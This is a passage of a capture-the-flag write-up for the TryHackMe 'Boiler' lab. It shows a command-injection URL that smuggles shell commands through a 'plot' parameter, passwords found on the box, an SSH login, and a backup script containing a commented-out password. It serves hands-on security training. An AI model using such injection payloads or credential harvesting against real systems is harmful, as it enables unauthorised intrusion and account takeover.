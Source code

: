 `http://<ipaddr>/index.php?plot=;<command-here>`

- [http://10.10.57.168/joomla/\_test/index.php?plot=;ls%20-la](http://10.10.57.168/joomla/_test/index.php?plot=;ls%20-la)

`superduperp@$$`

`log.txt`

## Task 2 Questions #2

You can complete this with manual enumeration, but do it as you wish

```
bibo318@parrot:~/CTFs/tryhackme/Boiler CTF$ ssh basterd@10.10.57.168 -p 55007
basterd@10.10.57.168's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
```

1. Where was the other users pass stored(no extension, just the name)?

```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
$ /bin/bash
basterd@Vulnerable:~$ cat backup.sh
```

```sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log

DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
```